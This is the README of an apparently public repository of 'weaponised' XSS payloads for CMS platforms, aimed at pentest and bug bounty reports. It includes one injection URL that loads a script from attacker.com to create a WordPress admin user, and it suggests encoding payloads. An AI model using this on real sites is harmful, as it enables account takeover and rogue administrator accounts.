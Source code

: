 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Pull requests are welcome.

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
https://example.com/vulnerable.php?param=<script src%3d"http://attacker.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly.

## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
